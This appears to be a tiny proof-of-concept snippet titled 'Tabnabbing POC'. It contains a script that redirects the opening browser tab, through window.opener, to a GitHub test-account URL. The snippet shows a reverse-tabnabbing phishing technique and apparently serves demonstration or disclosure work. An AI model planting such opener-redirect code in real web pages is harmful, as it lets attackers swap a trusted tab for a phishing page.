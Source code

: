 # Tabnabbing POC by kittiesscript
<script>
	if (window.opener) {
		window.opener.location = "https://github.com/herokutestaccount/subdomain/";
	}
</script>
